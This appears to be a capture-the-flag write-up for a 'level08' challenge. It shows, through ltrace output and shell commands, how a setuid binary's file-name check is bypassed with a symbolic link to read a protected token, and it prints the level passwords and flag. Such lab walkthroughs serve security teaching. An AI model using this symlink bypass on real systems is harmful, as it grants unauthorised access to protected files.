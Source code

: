 `su level08 -> fiumuikeil55xe9cu4dood66h`

We see two files, `token` which is only readable by flag08, and `level08` which we can execute.

```bash
$ ./level08
./level08 [file to read]
$ ./level08 token
You may not access 'token'
$ echo '123' > /tmp/test
$ ./level08 /tmp/test
123
```

So this executable reads then write the file given as argument.

```bash
$ ltrace ./level08 /tmp/test
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/tmp/test", "token")                                                          = NULL
open("/tmp/test", 0, 014435162522)                                                    = 3
read(3, "123\n", 1024)                                                                = 4
write(1, "123\n", 4123
)                                                                  = 4
```

It reads a file if its name doesn't contain token. So we have to make him read `token` referred as another name.

We will try to create a symbolic link to token, so that it will pass the strstr() comparison, but still open() `token`.

```bash
$ ln -s /home/user/level08/token flag
$ ./level08 flag
quif5eloekouj29ke0vouxean
$ su flag08 -> quif5eloekouj29ke0vouxean
$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```